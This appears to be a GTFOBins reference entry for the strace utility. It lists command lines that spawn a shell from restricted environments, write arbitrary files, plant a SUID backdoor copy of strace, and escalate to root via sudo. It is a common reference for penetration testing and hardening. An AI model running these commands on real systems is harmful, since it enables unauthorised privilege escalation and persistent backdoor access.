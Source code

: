 # GTFOBin: strace

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
strace -o /dev/null /bin/sh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The data to be written appears amid the syscall log, quoted and with special characters escaped in octal notation. The string representation will be truncated, pick a value big enough. More generally, any binary that executes whatever syscall passing arbitrary data can be used in place of `strace - DATA`.

```
LFILE=file_to_write
strace -s 999 -o $LFILE strace - DATA
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which strace) .

./strace -o /dev/null /bin/sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo strace -o /dev/null /bin/sh
```
